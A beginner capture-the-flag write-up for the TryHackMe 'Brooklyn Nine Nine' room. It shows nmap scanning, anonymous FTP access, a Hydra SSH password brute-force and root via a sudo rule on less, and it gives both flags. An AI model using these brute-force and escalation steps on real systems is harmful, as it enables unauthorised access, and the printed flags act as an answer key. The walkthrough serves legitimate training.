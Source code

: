 ## Brooklyn Nine Nine - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/brooklynninenine)

<i>This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box. If you find more dm me in discord at Fsociety2006.</i>

**IP: 10.10.66.96**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation, Brute Force <br>

**Tools Used**: Nmap, Hydra<br>

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20NEW.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Starting with Nmap, I also ran Gobuster but it didn't find anything useful.

  ```
  nmap -sC -sV -T5 -p- 10.10.66.96

  PORT   STATE SERVICE VERSION
  21/tcp open  ftp     vsftpd 3.0.3
  | ftp-anon: Anonymous FTP login allowed (FTP code 230)
  |_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
  | ftp-syst: 
  |   STAT: 
  | FTP server status:
  |      Connected to ::ffff:
  |      Logged in as ftp
  |      TYPE: ASCII
  |      No session bandwidth limit
  |      Session timeout in seconds is 300
  |      Control connection is plain text
  |      Data connections will be plain text
  |      At session startup, client count was 3
  |      vsFTPd 3.0.3 - secure, fast, stable
  |_End of status
  22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
  |   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
  |_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
  80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
  |_http-server-header: Apache/2.4.29 (Ubuntu)
  |_http-title: Site doesn't have a title (text/html).
  Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
  ```
  
- Since port 21 is open and allows Anonymous access let's get inside and download all necessary files.

  ```
  ftp 1.10.66.96
  230 Login successful.
  Remote system type is UNIX.
  Using binary mode to transfer files.
  ftp> pwd
  Remote directory: /
  ftp> ls
  229 Entering Extended Passive Mode (|||42102|)
  150 Here comes the directory listing.
  -rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
  226 Directory send OK.
  ftp> get note_to_jake.txt
  local: note_to_jake.txt remote: note_to_jake.txt
  229 Entering Extended Passive Mode (|||51690|)
  150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
  100% |************************************************************************|   119      203.52 KiB/s    00:00 ETA
  226 Transfer complete.
  119 bytes received in 00:00 (2.48 KiB/s)
  ```
  
- After reading the note we can see that one user is using weak credentials which means brute forcing will pay out.

  ```
  cat note_to_jake.txt 
  From Amy,
  
  Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
  ```

  ```
  hydra -l jake -P /rockyou.txt 10.10.66.96 ssh      
  Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
  
  Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-12 13:36:41
  [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
  [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
  [DATA] attacking ssh://10.10.66.96:22/
  [22][ssh] host: 10.10.66.96   login: jake   password: 987654321
  1 of 1 target successfully completed, 1 valid password found
  [WARNING] Writing restore file because 2 final worker threads did not complete until end.
  [ERROR] 2 targets did not resolve or could not be connected
  [ERROR] 0 target did not complete
  Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-12 13:36:44
  ```

- Beautiful, let's now login with SSH and get those flags!

---

## 🧍 User Privilege Escalation

- As always, user flag is already there.

  ```
  jake@10.10.66.96's password: 
  Last login: Tue May 26 08:56:58 2020
  jake@brookly_nine_nine:~$ whoami
  jake
  
  jake@brookly_nine_nine:~$ id
  uid=1000(jake) gid=1000(jake) groups=1000(jake)
  
  jake@brookly_nine_nine:/home$ cd holt
  jake@brookly_nine_nine:/home/holt$ ls -al
  total 48
  drwxr-xr-x 6 holt holt 4096 May 26  2020 .
  drwxr-xr-x 5 root root 4096 May 18  2020 ..
  -rw------- 1 holt holt   18 May 26  2020 .bash_history
  -rw-r--r-- 1 holt holt  220 May 17  2020 .bash_logout
  -rw-r--r-- 1 holt holt 3771 May 17  2020 .bashrc
  drwx------ 2 holt holt 4096 May 18  2020 .cache
  drwx------ 3 holt holt 4096 May 18  2020 .gnupg
  drwxrwxr-x 3 holt holt 4096 May 17  2020 .local
  -rw-r--r-- 1 holt holt  807 May 17  2020 .profile
  drwx------ 2 holt holt 4096 May 18  2020 .ssh
  -rw------- 1 root root  110 May 18  2020 nano.save
  -rw-rw-r-- 1 holt holt   33 May 17  2020 user.txt
  
  jake@brookly_nine_nine:/home/holt$ cat user.txt 
  ee11cbb19052e40b07aac0ca060c23ee
  ```
  
- Moving to escalation.

---

## 👑 Root Privilege Escalation

- This one wasn't hard as well, when you run `sudo -l` you will see it with your own eyes.

  ```
  jake@brookly_nine_nine:/home/holt$ sudo -l
  Matching Defaults entries for jake on brookly_nine_nine:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User jake may run the following commands on brookly_nine_nine:
      (ALL) NOPASSWD: /usr/bin/less
      
  jake@brookly_nine_nine:/home/holt$ sudo less /root/root.txt
  
  -- Creator : Fsociety2006 --
  Congratulations in rooting Brooklyn Nine Nine
  Here is the flag: 63a9f0ea7bb98050796b649e85481845
  
  Enjoy!!
  ```
  
- We will meet in the next one, bye! 

---

## 🏁 Flags

- **User Flag**: `ee11cbb19052e40b07aac0ca060c23ee`
- **Root Flag**: `63a9f0ea7bb98050796b649e85481845`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Pretty basic room tho.`

- What did I learn?
  `Nothing new, just sharpening my skillzzzzz.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
